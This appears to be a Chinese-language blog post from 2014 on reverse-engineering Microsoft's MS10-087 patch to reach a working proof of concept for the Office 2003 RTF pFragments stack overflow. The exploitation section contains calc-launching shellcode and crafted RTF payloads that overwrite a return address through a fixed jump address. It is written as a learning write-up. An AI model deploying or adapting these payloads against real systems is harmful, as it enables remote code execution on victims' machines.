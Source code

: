 ```yaml
---
layout: post
title:  "MS10-087从漏洞补丁到POC"
date:   2014-12-26 22:48:00
categories: Linux
---
```


实验环境

- 操作系统：VMWare Windows XP SP3
- Office版本：Microsoft Office 2003 SP3
- 漏洞DLL：Mso.dll 11.0.8324.0
- 调试器:Windbg

前言

MS10-087是微软OFFICE办公软件在处理RTF文档的绘图pFragments 属性时产生的一个栈溢出漏洞，可能允许攻击者以特制的RTF格式数据远程执行任意代码。CVE编号CVE-2010-1333
在本文中，我将介绍通过逆向微软MS10-087补丁程序并成功制造出一个POC的过程，同时分享我在其中学到的一些东西。我们首先逆向分析一下补丁程序来了解这个漏洞的起因。

理解这个漏洞

我们先到[https://technet.microsoft.com/library/security/ms10-087](https://technet.microsoft.com/library/security/ms10-087)下载对应OFFICE版本的补丁程序，我的是Microsoft Office 2003 SP3。这个补丁包含2个文件,如下图：


安装完Office 2003 SP3后，Mso.dll的版本是11.0.5606.0，与漏洞补丁的11.0.8329.0差距非常之大，这为我们逆向对比补丁程序带来了很大的困难。于是我找到了MS10-036的补丁程序，这个补丁也包含2个文件，如下图:


现在Mso.dll的版本11.0.8324.0与MS10-87的补丁版本11.0.8329.0比较接近了。
接下来我们从补丁中提取DLL，假设你下载后的文件名称为Office-KB.exe，在命令行中通过Office-KB.exe /c提取出安装文件，如下图：


Office2007版本前的补丁程序提取过程比较蛋疼，还需要解压MSO.msp，这里有一个提取工具：
http://www.windowswiki.info/2009/02/...-command-line/
用法：msix MSO.msp /out C:\patch，得到CAB后，通过解压缩就可以得到补丁文件了。

得到了11.0.8324.0(未修复版本)和11.0.8329.0(修复版本)的MSO.DLL后，我使用了BindDiff工具来查找两个DLL的差异。尽管两个DLL的版本号差异不大，但是这个接近12M的DLL比对起来，仍然有非常多的差异函数：


在至少100多个函数当中去定位漏洞所在代码实在像大海捞针一样，此时我考虑先从构造一个非法的RTF格式数据来触发一些异常，获得EIP地址后再来补丁程序中查看能否进一步获得一些信息。
关于RTF规范可以参考地址：http://www.doc88.com/p-33279717171.html
规范中介绍pFragments属性的值时有这样一段描述：



既然文中提到“每个元素的字节数可以为2、4、8”，为了触发异常，我绝对不会老实的按要求使第一数字为2、4、8，于是构造了一个看似非法的RTF格式的数据：
{\rtf1{}{\shp{\*\shpinst{\sp{\sn pfragments}{\sv 1;1;11121314151617181920}}}}}
保存为

，运行，崩溃！


我使用Windbg去调试，得到的崩溃信息如图：


可以看到EIP指向0x00000000，观察寄存器信息哪些可以被我们利用，看到EDX=20191817，这个不是我们填入RTF的数据吗，但是这里有一个疑问，为毛填入的数据，没有转变为ASCII，反而以十进制的形式表示。先不管这个，查看堆栈：


到了这里我也没有好的办法能迅速定位到事故EIP，查看堆栈的话，因为EIP已经改变为0x00000000，现在的问题是如何定位溢出的EIP，我想到的方法是，沿着堆栈向内存高地址查看堆栈内的函数调用留下的EBP和返回地址，BP返回地址，重复从崩溃信息中一点点靠近溢出现场（本人知识有限，如有更好的方法不吝赐教！）。因为是栈溢出，一旦溢出数据破坏了返回地址，程序返回会立刻产生异常。

于是看ESP=0x00123808，到这个栈地址的附近去看看内存信息


并没有发现我们填入的数据，以及有用的信息，去远一点的地方再看看


这里有一个0x0012516c，很像栈地址对不对，后面的0x3006f94f就是堆栈内其他函数的返回地址，重新打开Windbg，bp 0x3006f94f，用World打开RTF


程序断在了这里，这里的ESP距离事故现场的ESP 0x00123808还是有一点距离的。
因为现在进程进入了调试态，所以最后溢出时候的栈地址可能和现在的0x00123808不同。
抱着一点点耐心，经过N次崩溃及N次重复下断点，最后我找到了使堆栈溢出函数：

代码反汇编如下：


继续步进，来到0x30e97c06的地方：


此时ecx=0x00000585（已经除过4），原地址esi为=0x09c6000c，目的地址edi=0012aa30，从地址来看edi是在栈中的一个缓冲区，再看当前栈帧的栈底ebp=0x0012aa40，这个缓冲区用C语言表示的话char buffer[0x10]，也就是不到0x10字节的大小，但是复制的数据长度却是0x585 * 4，这条指令执行完，edi的值早就高于ebp了，正是这个地方缓冲区溢出，同时可以看到EDI的值是从作为函数参数传递过来的，我们去上一个函数看看。



可以看到，ecx是该函数的第二个参数，并且按照程序作者的意图，ecx最大也就是0x10大小，并且盲目信任了RTF中的长度数据。正是这个庞大的软件工程中毫不起眼的小地方出了问题，才给了我们劫持进程，进一步渗透的机会！千里之堤溃于蚁穴，请广大逻辑爱好者写程序一定要谨慎啊！

利用这个漏洞

首先准备一段弹出计算器的shellcode

char *shellcode="\x90\x33\xc0\x50\x68\x2e\x65\x78\x65\x68\x63\x61\x6c"
                "\x63\x8b\xc4\x6a\x05\x50\xb8\xad\x23\x86\x7c\xff\xd0"
                "\x83\xc4\x0c\x90";

__asm
{
    int 3
    mov eax, shellcode
    call eax
}
可以弹出计算器，Winexec函数地址写死了，所以这段shellcode并不通用，只是为了实验一下漏洞。
即将要做的事情是，精心特制一个RTF，使栈的返回地址被我们特制的数据覆盖，劫持进程，转向SHELLCODE。现在还有一个问题没有解决，那就是为毛RTF中的数据到了内存中还是以十进制的形式保存，理论上应该变成了对应的ASCII，我认为程序在解析RTF之前，已经做了一次转换，从ASCII到DEC。这个假设等渗透成功后，有时间再去验证。

现在把rtf扩大一些
{\rtf1{}{\shp{\*\shpinst{\sp{\sn pfragments}{\sv 1;1;111213141516171819202122232425262728293031323334353637383940}}}}}，到程序拷贝缓冲区前看看内存的样子。


11-16这6个数没有出现在缓冲区中，实际上15、16这两个数被作为ecx的值了，可以计算一下0x1615 / 4 = 0x585，前面的11、12、13、14，应该也是被WORD解析掉了。
从上面还可以获得一些信息，当前栈帧的栈底为0x0012aa40，0x0012aa40指向的内存保存的是上一个函数的栈底，那么0x0012aa44保存的就是返回地址了，我们只要把这个地址覆盖为shellcode的地址，那么我们的漏洞利用基本就成功了。继续执行，P。


可以看到0x001244指向的地址0x40393837就是这个函数返回后的地址，继续执行，直到函数返回前，P。


Leave命令后，ebp的值为我们填充的0x36353433，接下来EIP就要改变为0x40393837了，程序崩溃，至此我们的预测是正确的。


现在把Shellcode加入到RTF中,
{\rtf1{}{\shp{\*\shpinst{\sp{\sn pfragments}{\sv 1;1;1112131415161718192021222324252627282930313233343536373839409033c050682e6578656863616c638bc46a0550b8ad23867cffd083c40c90}}}}}
再次进入到程序中查看内存，但是还没等到函数返回，到了当前栈帧中下一个函数调用中就崩溃了：

因为内存溢出后，新加入的shellcode覆盖了栈原来数据，还没等到问题函数返回，程序又调用了一个函数，该函数崩溃。我把shellcode去掉，查看前一个状态的内存，原来只要把之间一段内存覆盖为0x00，出异常的函数就可以越过去，于是我在RTF中增加了几个0x00，如下：
{\rtf1{}{\shp{\*\shpinst{\sp{\sn pfragments}{\sv 1;1;11121314151617181920212223242526272829303132333435363738394000000000000000000000000000000000000000009033c050682e6578656863616c638bc46a0550b8ad23867cffd083c40c90}}}}}

此时程序执行到函数返回前，观察寄存器状态，Shellcode地址位于0x0012a970，ESP同时指向0x0012a970，于是我们可以用跳板技术去覆盖函数返回地址。


Windows XP下万能的跳转地址是0x7ffa4512,重新构造RTF：
{\rtf1{}{\shp{\*\shpinst{\sp{\sn pfragments}{\sv 1;1;11121314151617181920212223242526272829303132333435361245fa7f00000000000000000000000000000000000000009033c050682e6578656863616c638bc46a0550b8ad23867cffd083c40c90}}}}}

直接运行rtf，计算器弹出来了！


总结

希望这篇帖子可以使对渗透感兴趣的新人有一些帮助，SHELLCODE调用后，返回原堆栈继续执行下去的代码就先不写了，感兴趣的朋友可以尝试一下。